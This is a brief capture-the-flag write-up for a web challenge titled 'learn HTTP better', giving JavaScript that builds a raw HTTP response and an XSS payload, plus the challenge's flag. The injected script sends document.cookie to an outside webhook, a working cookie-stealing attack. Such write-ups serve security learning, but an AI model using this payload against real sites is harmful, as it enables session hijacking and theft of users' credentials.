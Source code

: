# web/learn HTTP better
## get sample of jwt
```js
build = (p) => "HTTP/1.1 200 OK\r\nContent-Type: text/html\r\nContent-Length: "+p.length+"\r\n\r\n"+p
build_url = (p) => `http://localhost:5001/resp?body=${encodeURIComponent(p)}`

webhook = "???"
img = `<img src=x id="abc" />`
script = `abc.src="${webhook}/" + document.cookie`
payload = `${img} <script defer src="${build_url(build(script))}"></script>`;
payload = build(payload)
```

## After this, do the same thing as a previous challenge

`pearl{w0w_7hat_w4s_0ut_Of_th3_boX}`
